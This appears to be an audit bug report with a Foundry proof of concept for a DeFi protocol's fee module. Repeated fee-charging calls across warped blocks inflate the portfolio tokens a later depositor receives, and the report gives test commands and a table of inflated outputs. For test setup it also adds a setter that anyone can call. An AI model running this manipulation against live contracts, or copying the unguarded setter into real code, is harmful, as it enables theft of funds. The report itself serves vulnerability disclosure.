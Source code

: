 ## Requirement
**My setup doens't deploy via proxy, so a circular dependecy arose between feeModule.sol and portfolio.sol**

- therefore, i added this function to FeeModule.sol
```sol
function ChangePortfolioAddress(address _portfolio) public {
   portfolio = IPortfolio(_portfolio);
}
```
- And OfCourse this line:
```
import {IPortfolio} from  "src/contracts/core/interfaces/IPortfolio.sol";
```

**`Now, All You have to do is to this:`**
- build dependencies quickly by running `forge build` , it would take 3 seconds hardly
- place gist in test/ folder such that test/POC.sol file is created, i've already provided a link to a `gist` in issue comments (probably last one)




## The Attack

**`This attack outcomes depends on two things:`**
- the no of blocks, the attack is repeated in
- the timestamp difference between these blocks

**Analyze `_simulateAttacksInDifferentBlocks()`**
```diff
    function _simulateAttacksInDifferentBlocks() internal {
        vm.startPrank(attacker);
+        uint blocks = 20; // no of blocks
        for (uint i = 1; i < blocks; i++) {
+            vm.warp(block.timestamp + 50); //time-diff between blocks
            feeModule._chargeProtocolAndManagementFees();
        }
        vm.stopPrank();
    }
```
In Normal deposit, as per our current configurations, user will get  
- `9500000000000000`

**run this test**
```bash
forge test --contracts test/POC.sol --match-test test_NormalDeposit -vvv
```

**Now we wanna see change in protocol behaviour after it has been attacked:**

**Remember at this point, the alice is depositing after the protocol  has been attacked**


**`Here is table demonstrating different outcomes of increase in user portfolio balance, if he deposits the same amount after the protocol is attacked:`**


| Blocks | t+50             | t+10             | t+1              |
| ------ | ---------------- | ---------------- | ---------------- |
| 20     | 9500029476677719 | 9500005895327870 | 9500000589532575 |
| 200    | 9500308733951601 | 9500061745983933 | 9500006174579890 |
| 2000   | 9503101758218631 | 9500620270603930 | 9500062025233455 |
| 20000  | 9531077202869606 | 9506207323135757 | 9500620549828824 |



**where,**
- `blocks:`  *no of blocks attack is repeated in*
```sol
uint blocks = 20; // no of blocks
```
- `t + n:`  *timestamp difference between the no of blocks attack is repeated in*
```sol
vm.warp(block.timestamp + 50); //time-diff between blocks
```

**Try it yourself by running this test with different configurations**
```bash
forge test --contracts test/POC.sol --match-test test_AfterAttackDeposit -vvv
```

`[+]` **At this point it is clear how much protocol's calculations are affected, due to this attack the protocol can be rigged in lot of unimaginable ways, like you just saw in the table above how much more alice's same deposits yeild**

`[+]` **He should be only getting `9500000000000000` but due to the attack he was able to increase that number from least `9500000589532575` to `9531077202869606` as shown in the table above**

`[+]` **Which is `589532575` to `31077202869606` more tokens**

`[+]` **that means a user can mint more than `31077202869606` portflio tokens if he does the same deposits after the attack**
